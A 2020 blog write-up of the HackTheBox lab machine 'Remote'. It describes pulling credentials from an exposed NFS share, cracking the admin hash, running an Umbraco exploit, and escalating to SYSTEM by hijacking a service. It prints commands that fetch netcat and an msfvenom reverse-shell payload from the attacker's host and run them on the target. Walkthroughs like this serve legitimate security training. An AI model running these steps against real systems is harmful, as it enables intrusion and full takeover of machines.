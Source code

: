 ```yaml
---
author: Greenjam94
categories:
- Walkthroughs
ct_period_last_updated:
- default
date: "2020-07-04T03:37:38Z"
guid: https://www.hackerunder.dev/?p=870
id: 870
image: /wp-content/uploads/2020/07/HTB_Remote.png
tags:
- DLL hijacking
- HTB
- kali
- web shell
- write-up
title: HackTheBox Remote Writeup
url: /hackthebox-remote-writeup/
---
```


Remote was a fun windows box to hack. This is my second active target on HTB. My first was [Traceback](https://www.hackerunder.dev/hackthebox-traceback-write-up/). Check that out for a similar web based exercise on Linux. Remote starts with a web vulnerability but requires finding credentials in a public share. DLL Hijacking is required to get a system shell.

## Lessons learned:

- Mounting a public windows share
- Exploit modifications – changing python code for a web exploit
- DLL Hijacking for privilege escalation

## Information gathering

An initial nmap scan reveals some listening services.   
`nmap -A -T4 10.10.10.180`

Of the services listed, a few seemed important.

- FTP
- web
- mountd
- RPC

Reviewing ftp, anonymous connections were not allowed and nothing was really visible here.

Web is running an application called **Umbraco**. Source code from the app can be found online. There are multiple exploits in the exploit-database and on Github.

Other Windows services were new to me. Some googling required, I figured out how to look into mountd. There’s an nmap script to check what is available.  
`nmap -p 2049 -sV --script=nfs-showmount -oG nfs-showmount 10.10.10.180`

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_1_nmap_nfs-1024x277.png)</figure>The directories and files related to the Umbraco web app are exposed. The first thing to look at is the config files. Database connection info, credentials, and API keys are commonly stored here.

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_2_grep_config-1024x107.png)</figure>Database files (.sdf) are also good targets. Since it’s a binary file, a command like `strings` is required to make it readable. Adding `grep` we can find the username and hash of the admin user.

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_3_grep_db-1024x126.png)</figure>`Hash-identifier` will confirm the hash format. `John` can be used to crack the SHA1 hash and reveal that the password is **baconandcheese**.

## Exploitation

Now that there is a user to authenticate with, [exploit 46153](https://www.exploit-db.com/exploits/46153) from exploit-db can be used. This creates command execution on the target. Before using the exploit we can see there is a few oddities about the script. Each line of the code ends with a semi-colon. The multi-line payload is wrapped in single quotes. To edit the payload easily, I replaced this with a simple string wrapped in triple double quotes “””.

The key part of the payload is below. There is multiple ways to improve this. What I originally did while exploiting this box was create two files. 46153-getnc.py and 46153-usenc.py where each had a hardcoded command.

```
<pre class="wp-block-code">```
string cmd = "";
```
```

As I write this review, it is clear that it would be easier to pass a variable. Just do the following and use a single file instead.  
`python3 46153fix.py "/c certutil -urlcache -split -f <hosted_file> <target_destination>"`

Using the exploit, we can copy the windows binary for netcat from kali onto the target and use it to open a reverse shell as a low privilege user, this allows us to get access to the user.txt proof file.

<div class="wp-block-image"><figure class="aligncenter size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_4_get_nc_onto_target.png)</figure></div>Note: Anything we are downloading from Kali needs to be hosted on a web server. Lately I’ve been a using a simple web server. `python3 -m http.server 80`   
However a great tool that provides a better visual interface and other features is [UpDog](https://www.hackerunder.dev/whats-updog/). Both are options to for hosting.

<div class="wp-block-image"><figure class="aligncenter size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_4_host_nc-1024x262.png)<figcaption>use python web server to host kali’s windows-binaries directory</figcaption></figure></div><figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_5_use_nc.png)<figcaption>use exploit and netcat to open a reverse shell</figcaption></figure><figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_5_listen_nc.png)<figcaption>listener with reverse shell</figcaption></figure>## Privilege Escalation

There are many commands to run that help gather information on how to get a better shell. One tutorial that walks through a lot is <https://www.fuzzysecurity.com/tutorials/16.html>

Running `wmic service where started=true get name, startname` will show us a list of started services running on the target. Going through this list reveals which are vulnerable to DLL Hijacking. One such service is UsoSvc or the “Update Orchestrator Service”. I followed an example from <https://www.nccgroup.com/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/> but modified what commands were used.  
  
I created a windows reverse shell with msfvenom. The command below creates an executable file we can upload like the netcat binary.  
`msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.39 lport=443 -f exe > root.exe`  
  
Use a python web server and the certutil command to download the file, then run the executable by changing the config of the UsoSvc service.

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_6_host_root_mfsvenom-1024x150.png)<figcaption>host payload on Kali web server</figcaption></figure><figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_6_get_root_msfv_payload-1024x284.png)</figure>```
<pre class="wp-block-preformatted">sc stop UsoSvc
sc config UsoSvc binpath="c:\windows\temp\root.exe
sc start UsoSvc
```

Make sure that a netcat listener is already listening `nc -nlvp 443` before running the start command.

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_7_dll_hijack-1024x446.png)</figure>This returns a system level shell that can do anything on Remote. At this point you can create a permanent backdoor, clean up exploit files, or simply revert the box and move on to the next challenge.

<figure class="wp-block-image size-large">![System reverse shell on Remote through a netcat listener](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_8_get_system.png)<figcaption>System reverse shell on a netcat listener</figcaption></figure>